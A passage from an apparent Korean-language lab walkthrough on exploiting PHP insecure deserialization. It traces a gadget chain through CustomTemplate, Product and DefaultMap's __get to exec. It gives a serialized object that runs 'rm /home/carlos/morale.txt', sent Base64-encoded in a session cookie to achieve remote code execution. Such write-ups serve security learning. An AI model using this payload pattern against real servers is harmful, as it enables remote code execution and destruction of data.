 3. 위의 분석결과를 종합한다. 다음과 같이 PHP 속성을 지정하면 RCE가 될 것이다.

```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

위와 같이 설정했을 때의 소스코드의 데이터 흐름을 따라가본다. 
1) `CustomTemplate` 오브젝트를 만들면, 새로운 `Product` 오브젝트가 만들어진다. 
2) `Product`의 생성자가 `desc` 속성에 지정된 `DefaultMap`오브젝트의 `default_desc_type`에 접근한다. 
3) 이 때 `default_desc_type`의 값은 "rm /home/carlos/morale.txt", `$desc`의 값은 DefaultMap 이다.

```php
class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

```

4) 하지만 `DefaultMap`오브젝트에는 `default_desc_type` 속성이 존재하지 않기 때문에 `__get()` 매직 메서드가 호출되고, 이 메서드는 `callback`으로 지정된 `exec()` 메서드를 호출한다. 이 때 파라메터 `$name`으로 전달된 값은, `Product`를 생성할 때 `default_desc_type` 속성으로 지정된 파라메터 값인 "rm /home/carlos/morale.txt"가 된다.

```php
class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
```

4. Base64 인코딩된 다음과 같은 직렬화된 오브젝트를 준비한다. 

```php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

- CustomTemplate 클래스의 오브젝트에 2개의 속성이 있는 형태다. 
- 하나는 `default_desc_type`으로 값은 "rm /home/carlos/morale.txt"를 가지고 있다. 
- 하나는 `desc`고 값은 DefaultMap 오브젝트로, 이 오브젝트의 callback 속성값은 "exec"다. 


5. 페이로드를 Base64으로 인코딩해서 세션쿠키에 설정한 후에 서버로 전달하면 다음과 같이 500응답이 회신되고, 그 후에 랩이 풀렸다는 메세지 나타난다.
